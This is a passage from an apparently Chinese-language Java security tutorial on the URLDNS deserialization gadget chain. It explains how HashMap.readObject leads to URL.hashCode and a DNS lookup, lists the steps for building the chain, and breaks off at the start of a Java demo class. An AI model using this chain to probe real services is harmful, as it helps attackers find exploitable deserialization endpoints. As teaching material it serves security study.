 ![Java安全漫谈-URLDNS篇-6](assets/Java安全漫谈-URLDNS篇-6.png)

总的来说，这条链的触发原因是`HashMap`重写了`readObject()`方法，该方法中会触发`putVal(hash(key), key, value, false, false);`；跟进`hash(key)`发现存在`key.hashCode()`，即计算`key`的哈希值；
因为前面把`URL`对象当成`key`存进了`HashMap`，所以这里会触发`URL`对象的`hashCode()`方法；在`URL#hashCode()`中，当`hashCode==-1`时会触发`URLStreamHandler#hashCode()`，进行到后⾯的 `getHostAddress()`方法查询主机地址时，会触发 DNS 请求。

## 利用链构造
根据前面的调用栈：

- 首先需要一个`HashMap`和`URL`实例
- 设置`URL`实例的`hashCode`值为`-1`
- 将`hashMap`对象进行序列化
- 反序列化触发漏洞

```java
package deserialization;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class DemoURLDNS {
    public static void main(String[] args) throws Exception {
```